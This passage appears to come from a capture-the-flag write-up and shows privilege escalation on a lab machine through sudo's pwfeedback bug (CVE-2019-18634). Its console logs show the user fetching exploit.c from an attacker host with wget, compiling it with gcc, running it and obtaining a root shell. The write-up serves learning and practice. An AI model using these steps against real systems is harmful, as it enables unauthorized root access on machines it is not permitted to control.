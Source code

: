 - Seems to be vulnerable, which can be confirmed from [here](https://www.sudo.ws/security/advisories/pwfeedback/#sudo-versions-affected)
- Downloaded [this](https://github.com/saleemrashid/sudo-cve-2019-18634/raw/master/exploit.c)
- Moved to `/tmp` directory of compromised machine.

```console
james@hackernote:/tmp$ wget http://10.17.0.215/exploit.c
--2022-11-20 12:44:27--  http://10.17.0.215/exploit.c
Connecting to 10.17.0.215:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 6311 (6.2K) [text/x-csrc]
Saving to: ‘exploit.c’

exploit.c            100%[======================>]   6.16K  --.-KB/s    in 0.002s

2022-11-20 12:44:28 (2.63 MB/s) - ‘exploit.c’ saved [6311/6311]
```

- Made binary with `gcc` and ran the exploit.

```console
james@hackernote:/tmp$ gcc exploit.c -o ./exploit
james@hackernote:/tmp$ ./exploit
[sudo] password for james:
Sorry, try again.
# whoami
root

```
